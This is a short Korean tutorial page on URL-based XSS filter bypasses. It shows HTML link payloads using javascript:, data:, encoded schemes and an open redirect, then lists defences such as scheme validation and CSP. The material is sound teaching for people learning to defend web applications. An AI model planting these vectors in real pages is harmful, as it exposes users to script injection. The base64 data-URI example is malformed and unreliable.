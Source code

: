 # URL 스크립트 우회 공격 예시

## 1. 개요
URL 스크립트 우회 공격(URL Script Bypass Attack)은 웹 애플리케이션에서 특정 URL 필터링을 우회하여 악성 스크립트를 실행하는 공격 방법입니다.

## 2. 공격 예시

### 📌 예제 1: JavaScript 프로토콜을 이용한 공격
```html
<a href="javascript:alert('XSS 공격!')">클릭하세요</a>
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTIEdv!')<L3NjcmlwdD4=">여기를 클릭하세요</a>
<a href="javascript%3Aalert%281%29">클릭하면 alert(1) 실행</a>
<a href="https://example.com/redirect?url=javascript:alert('XSS')">보안이 취약한 리디렉션 링크</a>
```
방어 방법
URL 스킴 검증: javascript: 또는 data: 스킴을 차단.
CSP(Content Security Policy) 적용: 허용되지 않은 스크립트 실행 차단.
입력값 필터링: URL 인코딩을 검출하고 차단.
Open Redirect 방지: 리디렉션 대상 URL을 화이트리스트 방식으로 제한.
🚨 주의: 위 예제는 학습 목적으로만 제공되며, 실제 공격에 사용해서는 안 됩니다!
